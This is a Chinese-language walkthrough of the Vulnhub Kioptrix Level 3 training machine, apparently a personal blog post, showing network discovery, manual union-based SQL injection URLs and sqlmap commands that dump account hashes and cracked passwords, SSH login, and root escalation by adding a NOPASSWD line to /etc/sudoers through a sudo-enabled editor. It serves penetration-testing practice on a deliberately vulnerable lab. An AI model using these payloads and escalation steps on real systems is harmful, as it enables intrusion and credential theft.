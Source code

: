 ```yaml
---
title: Vulnhub-Kioptrix_Level3
date: 2025-2-25 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息枚举

## 主机发现

```
netdiscover -i eth0 -r 192.168.137.0/24
```

![image-20250320011732744](./././././././././Kioptrix%20Level3/image-20250320011732744.png)

## nmap

![image-20250320011906500](./././././././././Kioptrix%20Level3/image-20250320011906500.png)

# WEB服务

![image-20250320014612476](./././././././././Kioptrix%20Level3/image-20250320014612476.png)

在此页面点击图片跳转到的是kioptrix3.com，将域名解析添加到/etc/hosts中去就可以正常显示图片

![image-20250320014937046](./././././././././Kioptrix%20Level3/image-20250320014937046.png)

当前页面有个排序功能，尝试对id进行sql注入![image-20250320015113210](./././././././././Kioptrix%20Level3/image-20250320015113210.png)

出现保存，说明存在注入点，手注测试之后为数字型闭合

## SQL注入

### 手注

判断列数

```
http://kioptrix3.com/gallery/gallery.php?id=0 order by 6--+&sort=photoid#photos
```

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,2,3,4,5,6--+&sort=photoid#photos
```

查询库名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,database(),3,4,5,6--+&sort=photoid#photos
```

查询表名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema=database()--+&sort=photoid#photos

表名：
dev_accounts,gallarific_comments,gallarific_galleries,gallarific_photos,gallarific_settings,gallarific_stats,gallarific_users
```

查询列名

```
http://kioptrix3.com/gallery/gallery.php?id=0 union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_name='gallarific_users'--+&sort=photoid#photos

列名：
userid,username,password,usertype,firstname,lastname,email,datejoined,website,issuperuser,photo,joincode
```

查询内容

```
http://kioptrix3.com/gallery/gallery.php?id=1 union select 1,group_concat(id,"~",username,"~",password),3,4,5,6 from dev_accounts --+&sort=#photos

内容
dreg~0d3eccfb887aabd50f243b3f155c0f85(Mast3r)
loneferret~5badcaf789d3d1d09794d8f021f40f0e(starwars)
```

## sqlmap

```
sqlmap -r sql --batch --dbs -p id
```

![image-20250320021618540](./././././././././Kioptrix%20Level3/image-20250320021618540.png)

```
sqlmap -r sql --batch -D gallery --tables -p id
```

![image-20250320021634279](./././././././././Kioptrix%20Level3/image-20250320021634279.png)

```
sqlmap -r sql --batch -D gallery -T dev_accounts --columns -p id
```

![image-20250320021806341](./././././././././Kioptrix%20Level3/image-20250320021806341.png)

```
sqlmap -r sql --batch -D gallery -T dev_accounts -C username,password -p id --dump
```

![image-20250320021851115](./././././././././Kioptrix%20Level3/image-20250320021851115.png)

## ssh连接

尝试使用得到的账号密码进行连接

```
ssh loneferret@192.168.137.133  -oHostKeyAlgorithms=+ssh-rsa
```

loneferret用户目录下有checksec.sh和CompanyPolic.README

![image-20250320022424144](./././././././././Kioptrix%20Level3/image-20250320022424144.png)

意思就是使用ht编辑器来编辑文档，ht编辑器有sudo权限

那么就只需要在/etc/sudoers中加入该用户就可以了

![image-20250320022816840](./././././././././Kioptrix%20Level3/image-20250320022816840.png)

解决方法

```
echo $TERM
export TERM=xterm
echo $TERM
```

ht编辑器最下面这行分别对应F1-F10，搜索/etc/sudoers/进行编辑

![image-20250320023044704](./././././././././Kioptrix%20Level3/image-20250320023044704.png)

添加

```
loneferretALL=(ALL) NOPASSWD:ALL 
```

即可成功提权

![image-20250320023340077](./././././././././Kioptrix%20Level3/image-20250320023340077.png)

